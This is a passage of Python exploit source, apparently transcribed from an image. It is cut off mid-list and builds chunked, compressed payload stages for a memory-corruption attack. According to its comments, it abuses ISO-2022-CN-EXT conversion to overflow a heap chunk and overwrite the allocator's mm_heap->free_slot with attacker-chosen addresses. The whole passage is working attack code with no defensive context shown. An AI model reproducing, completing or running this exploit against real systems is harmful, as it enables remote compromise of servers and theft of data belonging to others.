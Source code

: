 ```python
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
```